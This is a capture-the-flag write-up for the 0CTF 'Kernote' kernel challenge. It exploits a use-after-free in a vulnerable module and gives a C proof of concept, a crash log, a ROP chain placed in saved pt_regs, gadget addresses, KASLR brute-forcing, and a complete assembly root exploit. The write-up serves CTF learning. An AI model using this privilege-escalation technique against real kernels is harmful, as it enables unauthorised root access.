

# Kernote

**Authors:** [Nspace](https://twitter.com/_MatteoRizzo)

**Tags:** pwn, kernel

**Points:** 750

> Let's try kernote in kernel
> 
> nc 42.192.68.11 12345
> [Attachment](https://attachment.ctf.0ops.sjtu.cn/kernote_3157feafdcfaf6dcfa356a04ad57a056.tar.gz)
> or [Attachment(MEGA)](https://mega.nz/file/axoHVaTa#cl_YEcpSn3W094l65jYVKugt0DWucl1YnuDGqq_OVN4)

## Analysis

This is a kernel pwn challenge. The challenge uses the usual setup: a QEMU VM
running Linux with a vulnerable module. We get an unprivileged shell in the VM
and we have to exploit the kernel to become root and read the flag.

```
$ ls
bzImage		readme.md	rootfs.img	run.sh

$ cat readme.md
Here are some kernel config options in case you need it
CONFIG_SLAB=y
CONFIG_SLAB_FREELIST_RANDOM=y
CONFIG_SLAB_FREELIST_HARDENED=y
CONFIG_HARDENED_USERCOPY=y
CONFIG_STATIC_USERMODEHELPER=y
CONFIG_STATIC_USERMODEHELPER_PATH=""

$ cat run.sh
#!/bin/sh
qemu-system-x86_64 \
-m 128M \
-kernel ./bzImage \
-hda ./rootfs.img \
-append "console=ttyS0 quiet root=/dev/sda rw init=/init oops=panic panic=1 panic_on_warn=1 kaslr pti=on" \
-monitor /dev/null \
-smp cores=2,threads=2 \
-nographic \
-cpu kvm64,+smep,+smap \
-no-reboot \
-snapshot
```

All the usual mitigations are enabled (SMEP, SMAP, KASLR, KPTI, ...). The kernel
also uses the SLAB allocator instead of the default SLUB and disables usermode
helpers by hardcoding their path to "". Furthermore the VM will shut down
immediately if we cause any kernel warnings or panics.

`rootfs.img` is an ext4 disk. We can mount it to extract the files:

```
$ mount -o loop rootfs.img mount

$ ls mount
bin  dev  etc  flag  init  kernote.ko  linuxrc  lost+found  proc  sbin  sys  tmp  usr

$  cat mount/init
#!/bin/sh
mount -t proc none /proc
mount -t sysfs none /sys
mount -t tmpfs tmpfs /tmp
#mount -t devtmpfs devtmpfs /dev
mkdir /dev/pts
mount -t devpts devpts /dev/pts
echo /sbin/mdev>/proc/sys/kernel/hotplug
echo 1 > /proc/sys/kernel/dmesg_restrict
echo 1 > /proc/sys/kernel/kptr_restrict
echo "flag{testflag}">/flag
chmod 660 /flag
insmod /kernote.ko
#/sbin/mdev -s
chmod 666 /dev/kernote
chmod 777 /tmp
setsid cttyhack setuidgid 1000 sh
poweroff -f
```

`kptr_restrict=1` prevents us from reading kernel addresses from
`/proc/kallsyms` and `dmesg_restrict=1` prevents us from reading the kernel logs.

The interesting part is `kernote.ko`, the kernel module which contains the
vulnerable code. My teammate [busdma](https://twitter.com/busdma) reverse
engineered the module and quickly spotted some bugs. Here is the (cleaned up)
decompilation.

```c
uint64_t *buf[16];
uint64_t *note;
int major_num;
struct class *module_class;
struct device *module_device;
spinlock_t spin;

int kernote_ioctl(struct file *f, uint32_t cmd, uint64_t arg);

const struct file_operations kernote_fo = {
    .unlocked_ioctl = kernote_ioctl,
};

int module_init(void)
{
    major_num = register_chrdev(0LL, "kernote", &kernote_fo);
    if (major_num < 0) {
        printk(KERN_INFO "[kernote] : Failed to register device\n");
        return major_num;
    }

    module_class = class_create(THIS_MODULE, "kernote", &module_device);
    if (IS_ERR(module_class)) {
        unregister_chrdev(major_num, "kernote");
        printk(KERN_INFO "[kernote] : Failed to create class\n");
        return PTR_ERR(module_class);
    }

    module_device = device_create(module_class, NULL, MKDEV(major_num, 0), NULL, "kernote");
    if (IS_ERR(module_device)) {
        class_destroy(module_class);
        unregister_chrdev(major_num, "kernote");
        printk(KERN_INFO "[kernote] : Failed to create device\n");
        return PTR_ERR(module_device);
    }

    printk(KERN_INFO "[kernote] : Insert module complete\n");
    return 0;
}

int kernote_ioctl(struct file *f, uint32_t cmd, uint64_t arg)
{
    int ret;

    raw_spin_lock(&spin);

    switch (cmd) {
    // alloc note
    case 0x6667:
        if (arg > 15) {
            ret = -1;
            break;
        }

        uint64_t *newnote = kmalloc(32, GFP_KERNEL);
        buf[arg] = newnote;
        if (newnote == NULL) {
            ret == -1;
            break;
        }

        ret = 0;
        break;

    // free note
    case 0x6668:
        if (arg > 15 || buf[arg] == NULL) {
            ret = -1;
            break;
        }

        kfree(buf[arg]);
        buf[arg] = 0;
        ret = 0;
        break;

    // set note pointer
    case 0x6666:
        if (arg > 15) {
            ret = -1;
            break;
        }

        note = buf[arg];
        break;

    // write note
    case 0x6669:
        if (note) {
            *note = arg;
            ret = 0;
        } else {
            ret = -1;
        }
        break;

    // inc refcount?
    case 0x666a: 
        struct user_struct *user = current_task->cred->user;
        refcount_inc(&user->__count);
        if (user->uid != 0) {
            printk(KERN_INFO "[kernote] : ********\n");
            ret = -1;
        } else if (note != NULL) {
            printk(KERN_INFO "[kernote] : 0x%lx\n", *note);
            ret = 0;
        } else {
            printk(KERN_INFO "[kernote] : No note\n");
            ret = -1;
        }
        break;
    }

    spin_unlock(&spin);
    return ret;
}
```

The first bug is that note can point to freed memory if we set it to the address
of a note and then free that note. The second bug is that command `0x666a`
increments the `user_struct`'s refcount but never decrements it. The second bug
is useless because overflowing a refcount triggers a warning which shuts down
the VM immediately, but the first bug looks promising. Later during the CTF the
author of the task confirmed that the second bug was unintentional.

Command `0x666a` looks like it might leak the contents of a note, but in
practice it only does so when invoked by root and it logs the contents to dmesg,
which we can't access. Either way it's not useful.

In conclusion, the bug lets us overwrite the first 8 bytes of a freed chunk in
kmalloc-32. The challenge is to somehow use that to get root.

## Exploitation

After reverse engineering the module busdma also wrote a PoC exploit that crashes
the kernel with a controlled RIP. The PoC frees a note and reclaims the freed
chunk with a [`struct seq_operations`](https://elixir.bootlin.com/linux/latest/source/include/linux/seq_file.h#L31), which is heap allocated in kmalloc-32 and contains a function pointer
in the first 8 bytes. It then uses the bug to overwrite the function pointer and
reads from the seq file to call the overwritten pointer.

```c
#define SET_NOTE    0x6666
#define ALLOC_ENTRY 0x6667 
#define FREE_ENTRY  0x6668
#define WRITE_NOTE  0x6669

static int kfd;

static int set_note(uint64_t idx)
{
    return ioctl(kfd, SET_NOTE, idx);
}

static int alloc_entry(uint64_t idx)
{
    return ioctl(kfd, ALLOC_ENTRY, idx);
}

static int free_entry(uint64_t idx)
{
    return ioctl(kfd, FREE_ENTRY, idx);
}

static int write_note(uint64_t val)
{
    return ioctl(kfd, WRITE_NOTE, val);
}

int main(void)
{
    kfd = open("/dev/kernote", O_RDWR);
    assert(kfd > 0);

    for (int i = 0; i < 0x100; i++) {
        alloc_entry(0);
    }
    alloc_entry(1);
    set_note(1);
    free_entry(1);

    int fd = open("/proc/self/stat", O_RDONLY);

    write_note(0x4141414141414141);

    char buf[32] = {};
    read(fd, buf, sizeof(buf));

    return 0;
}
```

```
[    3.856543] general protection fault, probably for non-canonical address 0x4141414141414141: 0000 [#1] SMP PTI
[    3.858362] CPU: 0 PID: 141 Comm: pwn Tainted: G           OE     5.11.9 #2
[    3.859598] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.14.0-2 04/01/2014
[    3.861074] RIP: 0010:__x86_indirect_thunk_rax+0x3/0x5
[    3.861995] Code: 06 d7 ff 31 c0 e9 43 06 d7 ff <...>
[    3.865260] RSP: 0018:ffffc90000253dc0 EFLAGS: 00010246
[    3.866187] RAX: 4141414141414141 RBX: ffffc90000253e60 RCX: 0000000000000000
[    3.867440] RDX: 0000000000000000 RSI: ffff888004d47be0 RDI: ffff888004d47bb8
[    3.868698] RBP: ffffc90000253e18 R08: 0000000000001000 R09: ffff888003c63000
[    3.869960] R10: ffffc90000253e68 R11: 0000000000000000 R12: 0000000000000000
[    3.871217] R13: ffff888004d47bb8 R14: ffff888004d47be0 R15: ffffc90000253ef0
[    3.872474] FS:  0000000001e68380(0000) GS:ffff888007600000(0000) knlGS:0000000000000000
[    3.873898] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    3.874914] CR2: 000000000048afd0 CR3: 0000000004cca000 CR4: 00000000003006f0
```

This is a great starting point but it's not enough to own the kernel. We can't
directly jump to some code in userspace because of SMEP + KPTI. We also can't
(seemingly) start a ROP or JOP chain right away because we don't control the
contents of any of the registers or the memory they point to (except rax which
contains our overwritten function pointer).

My goal at this point was to try and use our bug to get arbitrary read and write
in the kernel.

My first idea was to overwrite a freelist pointer. By default the first 8 bytes
of a free kmalloc chunk contain the freelist pointer and we can easily get
arbitrary r/w by overwriting that. Unfortunately this challenge doesn't use the
default allocator. Instead the author enabled the older SLAB allocator which
stores metadata out-of-line and prevents this attack.

My second idea was to corrupt the next pointer of a `msg_msgseg`. I had played
corCTF about 1 month earlier and spent a lot of time failing to pwn the `Fire of
Salvation` kernel challenge. That challenge let us overwrite the first 40 bytes
of a freed chunk in kmalloc-4k, which is somewhat similar to what we have here.
You can find the author's writeup for that challenge [here](https://www.willsroot.io/2021/08/corctf-2021-fire-of-salvation-writeup.html).
We can reclaim the freed note with a 32-byte `msg_msgseg`, which contains a
pointer to the next `msgseg` in the first 8 bytes, then hopefully use that to
get arbitrary read and write, just like in that challenge. Unfortunately I
couldn't turn this into an arbitrary kernel r/w, even though I could crash the
kernel with an arbitrary pointer dereference. The reason is that the bug doesn't
let us overwrite the `m_ts` field of `msg_msg`, so the kernel will stop reading
and writing after the first `msg_msgseg`.

After spending hours on this idea and ultimately ruling it out I went back to
busdma's crash PoC and started looking for controllable memory in GDB. I
eventually noticed that there were a lot of what looked like userspace pointers
near the bottom of the kernel's stack:



After looking at the system call handler for a bit it became clear that these
are the saved userspace registers. One of the first things the system call
handler does is to [push](https://elixir.bootlin.com/linux/v5.11.9/source/arch/x86/entry/entry_64.S#L115) a `struct pt_regs` on the stack.
[`pt_regs`](https://elixir.bootlin.com/linux/v5.11.9/source/arch/x86/include/uapi/asm/ptrace.h#L44)
contains the values of all the registers at the moment the system call was
invoked. As far as I can tell all registers are [saved](https://elixir.bootlin.com/linux/v5.11.9/source/arch/x86/entry/calling.h#L100) on every syscall,
despite what the comment on `pt_regs` says. Obviously the contents of `pt_regs`
are fully controlled by userspace, minus some constraints such as that `rax`
must contain the correct system call number.

```c
struct pt_regs {
	unsigned long r15;
	unsigned long r14;
	unsigned long r13;
	unsigned long r12;
	unsigned long rbp;
	unsigned long rbx;
	unsigned long r11;
	unsigned long r10;
	unsigned long r9;
	unsigned long r8;
	unsigned long rax;
	unsigned long rcx;
	unsigned long rdx;
	unsigned long rsi;
	unsigned long rdi;
	unsigned long orig_rax;
	unsigned long rip;
	unsigned long cs;
	unsigned long eflags;
	unsigned long rsp;
	unsigned long ss;
};
```

At this point I had an idea: what if we could store a ROP chain in the contents
of `pt_regs`? `r8`-`r15`, `rbx`, and `rbp` are ignored by the `read` syscall and
can contain any value (except `r11` which contains the saved `rflags`). This
gives us about 80 bytes of contiguous controlled memory. Is this enough to fit
a ROP chain that gives us root and returns to userspace without crashing? Can
we even move the stack pointer to the beginning of the controlled area in a
single gadget?

As luck would have it, the answer to the second question is yes! I found this
gadget that moves the stack pointer by just the right amount when invoked from
the overwritten `seq_operations` pointer:

```
0xffffffff81516ebe: add rsp, 0x180; mov eax, r12d; pop rbx; pop r12; pop rbp; ret; 
```

But still, 80 bytes is really not a lot. Can we fit our ROP chain in so little
space? A typical payload used to get root in kernel exploits calls
`commit_creds(prepare_kernel_cred(NULL))`. Doing this uses 32 bytes in our ROP
chain. However in addition to this we have to return to userspace cleanly, or
we will crash the VM before we can use our newly-acquired root credentials.
Returning to userspace takes an additional 40 bytes because we need to set `rcx`
to a valid userspace address and `r11` to valid flags before we can ROP to
`syscall_return_via_sysret`. This comes in at 72 bytes, just below of our 80
byte budget. We can further optimize this down to 64 bytes if we do
`commit_creds(&init_cred)` instead, and skip `prepare_kernel_cred`. `init_cred`
is the `cred` structure used for the init process and it's located in the
kernel's data section. Our final ROP chain then looks like this:

```
r15: 0xffffffff81075c4c: pop rdi; ret
r14: 0xffffffff8266b780: &init_cred
r13: 0xffffffff810c9dd5: commit_creds
r12: 0xffffffff810761da: pop rcx; ret
rbp: < address of our code in userspace >
rbx: 0xffffffff8107605a: pop r11; ret
r11: < valid rflags value >
r10: 0xffffffff81c00109: return from syscall
```

We need precise control over the values stored in the registers when we invoke
the syscall handler. We need to recover our userspace stack after returning.
This is probably possible in C but I figured I should write a helper function
in assembly instead, to have more precise control over the registers. The
`syscall` instruction already stores the current value of `rflags` in `r11` so
we don't have to set that register.

```x86asm
pwn:
    mov [user_rsp], rsp
    mov r15, 0xffffffff81075c4c
    mov r14, 0xffffffff8266b780
    mov r13, 0xffffffff810c9dd5
    mov r12, 0xffffffff810761da
    lea rbp, [.after_syscall]
    mov rbx, 0xffffffff8107605a
    mov r10, 0xffffffff81c00109
    ; SYS_read
    xor eax, eax
    syscall
.after_syscall:
    mov rsp, [user_rsp]
    ret

user_rsp: dq 0
```

Combined with the `seq_operations` exploit this makes us root, and we can simply
read and print the flag or `execve` a shell after returning to userspace.

There is still an elephant in the room though. So far we have assumed that we
know the address of all of these gadgets, and yet we still have absolutely no
leaks of kernel addresses or a way to bypass KASLR.

Luckily for us even with KASLR the base address of the kernel is not very random.
In fact there are only 512 possible addresses at which the kernel will load
itself. This is small enough that we can brute force it in a reasonable amount
of time. We will keep trying our exploit assuming that the kernel's base address
is `0xffffffff81000000` (same as if there was no KASLR) and eventually we will
succeed. We are nearly guaranteed to succeed at least once if we run the exploit
~2000 times. In our experiments running the exploit against the remote system
took about 5-10 seconds. We did some napkin math and concluded that we should
be able to get the flag in about an hour or two by running multiple instances
of the exploit in parallel. Since we still had several hours left before the
end of the CTF we decided to go with that. We got the flag after about an hour.

I ended up writing an optimized version of the exploit entirely in assembly to
make it smaller and speed up the brute forcing. The target VM has no internet
access so we have to upload the exploit through the VM's serial port which takes
a long time. Even when using UPX and musl, the C exploit was about 18KB. The
exploit written in assembly is only 342 bytes when gzipped, so it uploads much
faster.

```x86asm
; Keep running this exploit until it works, which should take about 512 tries.
; Or alternatively find a KASLR bypass :)

; Emit 64-bit code.
bits 64
; Use RIP-relative addressing by default.
default rel
; Load at this address
org 0x40000000

ELFCLASS64 equ 2
ELFDATA2LSB equ 1
EV_CURRENT equ 1
ELFOSABI_NONE equ 0
ET_EXEC equ 2
EM_X86_64 equ 62
PT_LOAD equ 1
PF_X equ 1
PF_W equ 2
PF_R equ 4
O_RDONLY equ 0
O_RDWR equ 2

; 64-bit ELF header.
elfh: 
; e_ident
db 0x7f, 'ELF', ELFCLASS64, ELFDATA2LSB, EV_CURRENT, ELFOSABI_NONE, 0, 0, 0, 0, 0, 0, 0, 0
; e_type
dw ET_EXEC
; e_machine
dw EM_X86_64
; e_version
dd EV_CURRENT
; e_entry
dq _start
; e_phoff
dq phdr - $$
; e_shoff
dq 0
; e_flags
dd 0
; e_ehsize
dw ehsize
; e_phentsize
dw phsize
; e_phnum
dw 1
; e_shentsize
dw 0
; e_shnum
dw 0
; e_shstrndx
dw 0

; Size of the elf header.
ehsize equ $ - elfh

; 64-bit program header.
phdr:
; p_type;
dd PT_LOAD
; p_flags;
dd PF_R | PF_W | PF_X
; p_offset;
dq 0
; p_vaddr;
dq $$
; p_paddr;
dq $$
; p_filesz;
dq filesize
; p_memsz;
dq filesize
; p_align;
dq 0x1000

phsize equ $ - phdr

exit:
    mov eax, 60
    syscall
    ud2

open:
    mov eax, 2
    syscall
    ret

ioctl:
    mov eax, 16
    syscall
    ret

execve:
    mov eax, 59
    syscall
    ud2

set_note:
    mov edx, edi
    mov edi, [kfd]
    mov esi, 0x6666
    jmp ioctl

alloc_entry:
    mov edx, edi
    mov edi, [kfd]
    mov esi, 0x6667
    jmp ioctl

free_entry:
    mov edx, edi
    mov edi, [kfd]
    mov esi, 0x6668
    jmp ioctl

write_note:
    mov rdx, rdi
    mov edi, [kfd]
    mov esi, 0x6669
    jmp ioctl

pwn:
    mov [user_rsp], rsp
    ; 0xffffffff81075c4c: pop rdi; ret
    mov r15, 0xffffffff81075c4c
    ; 0xffffffff8266b780: init_cred
    mov r14, 0xffffffff8266b780
    ; 0xffffffff810c9dd5: commit_creds
    mov r13, 0xffffffff810c9dd5
    ; 0xffffffff810761da: pop rcx; ret
    mov r12, 0xffffffff810761da
    lea rbp, [.after_syscall]
    ; 0xffffffff8107605a: pop r11; ret
    mov rbx, 0xffffffff8107605a
    ; 0xffffffff81c00109: return from syscall
    mov r10, 0xffffffff81c00109
    xor eax, eax
    syscall
.after_syscall:
    mov rsp, [user_rsp]
    ret

_start:
    ; kfd = open("/dev/kernote", O_RDWR)
    lea rdi, [devpath]
    mov esi, O_RDWR
    call open
    mov [kfd], eax

    ; for (int i = 0; i < 0x100; i++) {
    ;   alloc_entry(0);
    ; }
    mov r8d, 0x100
.sprayloop:
    xor edi, edi
    call alloc_entry
    dec r8d
    jnz .sprayloop

    ; alloc_entry(1)
    mov edi, 1
    call alloc_entry
    ; set_note(1)
    mov edi, 1
    call set_note
    ; free_entry(1)
    mov edi, 1
    call free_entry

    ; statfd = open("/proc/self/stat", O_RDONLY)
    lea rdi, [statpath]
    mov esi, O_RDONLY
    call open
    mov [statfd], eax

    ; 0xffffffff81516ebe: add rsp, 0x180; mov eax, r12d; pop rbx; pop r12; pop rbp; ret; 
    ; write_note(0xffffffff81516ebe)
    mov rdi, 0xffffffff81516ebe
    call write_note

    ; pwn(statfd, buf, sizeof(buf))
    mov edi, [statfd]
    lea rsi, [buf]
    mov edx, bufsize
    call pwn

    ; execve("/bin/sh", {"/bin/sh", NULL}, NULL)
    lea rdi, [shell_path]
    lea rsi, [shell_argv]
    xor edx, edx
    jmp execve

user_rsp: dq 0
kfd: dd 0
statfd: dd 0
shell_argv: dq shell_path, 0
buf: times 32 db 0
bufsize equ $ - buf

devpath: db '/dev/kernote', 0
statpath: db '/proc/self/stat', 0
shell_path: db '/bin/sh', 0

filesize equ $ - $$
```

```
flag{LMm2tayzwWEzGpnmoyyf8zoTmk6X5TQrL45o}
```

## Intended solution

It is pretty clear that this solution is not what the author intended, but
it was still fun and it got us a flag which is what counts. The intended
solution was to overwrite a freed `ldt_struct`. You can find the author's own
writeup [here](https://github.com/YZloser/My-CTF-Challenges/tree/master/0ctf-2021-final/kernote).

## Conclusion

Thanks to busdma for the help with reversing and the initial PoC exploit and to
my teammates for letting me bounce ideas off of them. Thanks to 0ops and eee for
the amazing CTF, we really had a lot of fun playing this one. Looking forward
to next year's edition :).

I don't know if using `pt_regs` as ROP chain is a new technique or not. I've
never heard of it before and I couldn't find anything on Google. It seems pretty
powerful though: it only requires RIP control and bypasses all mitigations
except KASLR, assuming that the kernel has the right gadgets. Let me know if
it's been used before somewhere.